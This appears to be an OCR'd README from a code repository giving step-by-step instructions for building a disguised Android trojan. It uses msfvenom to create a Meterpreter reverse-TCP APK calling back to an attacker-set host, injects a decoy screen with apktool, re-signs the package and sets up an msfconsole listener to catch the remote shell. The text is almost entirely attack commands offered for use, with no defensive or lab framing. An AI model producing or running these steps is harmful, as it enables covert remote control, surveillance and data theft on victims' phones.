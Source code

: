 Payload Builder Instructions:

Follow these steps to build the APK payload for Android devices.


1. Generate Reverse Shell

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -o base.apk
```

---

2. Decompile APK

```bash
apktool d base.apk -o hacked_source
```

---

3. Inject Decoy Screen   (Edit the "src" jpg link of picture or gif to change)

- Place `hacked_screen.xml` into:
  ```
  hacked_source/res/layout/
  ```

- Edit the smali code for MainActivity (instructions in `apktool_instructions.txt`)

---

4. Rebuild and Sign

```bash
apktool b hacked_source -o hacked_payload.apk

keytool -genkey -v -keystore hacked.keystore -alias hackedkey -keyalg RSA -keysize 2048 -validity 10000

jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore hacked.keystore hacked_payload.apk hackedkey
```

---

5. Setup Listener

```bash
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
run
```
